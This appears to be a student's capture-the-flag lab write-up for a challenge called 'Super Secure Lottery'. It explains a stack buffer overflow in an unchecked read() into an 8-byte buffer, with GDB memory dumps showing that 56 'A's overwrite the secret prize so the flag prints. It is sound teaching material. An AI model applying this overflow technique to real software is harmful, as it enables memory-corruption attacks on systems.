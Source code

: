 # Challenge `Super Secure Lottery` writeup

- Vulnerability: Buffer Overflow
- Where: function `read()` when reading from *stdin*
- Impact: This function doesn't do any kind of input validation or bounds checking while getting bytes from *stdin*, which allows us to enter more than the maximum 8 characters allocated for the variable *guess*, causing it to write in memory that was not allocated for, in this case the content of the *prize* variable which is read from a file

## Steps to reproduce

1. Using GDB if we put a breakpoint somewhere in the function `run_lottery()` we can check the address of the variable *prize* and check its content which we want to overwrite:

(gdb) p &prize
$4 = (const char **) 0xffffce5c

2. If we check what's on that address we get `0xffffce94`:

0xffffce40:     0x00000000      0xffffce64      0x00000040      0x0804875d
0xffffce50:     0xffffcea8      0x0804a000      0xf7fb4000      0xffffce94

3. So the content of the variable *prize* must be at the address `0xffffce94`and `0xffffce98` because it has size 8 which corresponds to these 2 blocks `0x0b26db30 0xc9ddfc76`:

0xffffce90:     0x00000003      0x0b26db30      0xc9ddfc76      0xdb8e8d00
0xffffcea0:     0xffffcec0      0x00000000      0x00000000      0xf7de6ee5

4. The address of the variable *guess* is:

(gdb) p &guess
$3 = (char (*)[8]) 0xffffce64

5. From `0xffffce64` to get to `0xffffce94` and `0xffffce98` we must write on 14 blocks which correspond to 56 'A's. This can be easly seen by printing the stack's content:

(gdb) x/30x $esp
0xffffce40:     0x00000000      0xffffce64      0x00000040      0x0804875d
0xffffce50:     0xffffcea8      0x0804a000      0xf7fb4000      0xffffce94
0xffffce60:     0xffffcea8      0x41414141      0x41414141      0xd366a60a
0xffffce70:     0x00000008      0x0804a000      0xffffcea8      0x0804885f
0xffffce80:     0xffffce94      0xffffce94      0x00000008      0x0804881a
0xffffce90:     0x00000003      0x7ff29173      0xd9d111d7      0xd366a600
0xffffcea0:     0xffffcec0      0x00000000      0x00000000      0xf7de6ee5

6. If we send this many 'A's, in funcion `memcmp()` we are comparing the first 8 characters of both *prize* and *guess* variables and both will have 8 'A's in the beginning so we will enter the *If* statement where the flag will be printed

This was done in python using Pwntools [here](https://gitlab.rnl.tecnico.ulisboa.pt/ssof2223/writeups/ist193342/-/blob/master/lab6/super_secure_lottery.py)